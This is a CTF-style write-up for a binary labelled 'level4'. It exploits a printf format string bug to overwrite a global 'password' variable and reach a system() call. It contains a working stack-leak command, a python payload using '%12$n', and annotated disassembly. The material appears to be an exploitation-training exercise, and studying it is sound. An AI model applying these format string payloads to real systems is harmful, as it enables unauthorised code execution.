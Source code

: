 - attack: format string exploitation
- binary behavior: fgets argument and send it to printf, if global argument = 16930116 run the shell
- targeted functions: n, p and main
- vulnerability in p: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the argument (find repetition and compare with hex ASCII table)
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 16930116 as its value
 
Info:
- positon of argument in stack - 12

- 0x8049810 - address global variable
- 10980408 - same in little-endian
- same in hex - \x10\x98\x04\x08
- the password - 0x1025544 or 16930116

- offset code structure: 16930112 = 16930116 (password) - 4 (buffer address)


Code:
objdump -d ./level4
(python -c 'print "0000" + " %p" * 15'; cat) | ./level4
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112u" + "%12$n"')


Functions

080484a7 <main>:
 80484a7:       55                      push   %ebp
 80484a8:       89 e5                   mov    %esp,%ebp
 80484aa:       83 e4 f0                and    $0xfffffff0,%esp
 80484ad:       e8 a5 ff ff ff          call   8048457 <n> # move to n
 80484b2:       c9                      leave
 80484b3:       c3                      ret


08048457 <n>:
 8048457:       55                      push   %ebp
 8048458:       89 e5                   mov    %esp,%ebp
 804845a:       81 ec 18 02 00 00       sub    $0x218,%esp #536
 8048460:       a1 04 98 04 08          mov    0x8049804,%eax
 8048465:       89 44 24 08             mov    %eax,0x8(%esp)
 8048469:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax #520
 8048477:       89 04 24                mov    %eax,(%esp)
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt> # defence
 804847f:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 8048485:       89 04 24                mov    %eax,(%esp)
 8048488:       e8 b7 ff ff ff          call   8048444 <p> # calling p
 804848d:       a1 10 98 04 08          mov    0x8049810,%eax # global varibale
 8048492:       3d 44 55 02 01          cmp    $0x1025544,%eax # password
 8048497:       75 0c                   jne    80484a5 <n+0x4e> # call system if true
 8048499:       c7 04 24 90 85 04 08    movl   $0x8048590,(%esp)
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt> # exloit
 80484a5:       c9                      leave
 80484a6:       c3                      ret


 08048444 <p>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       8b 45 08                mov    0x8(%ebp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt> # exploit
 8048455:       c9                      leave
 8048456:       c3                      ret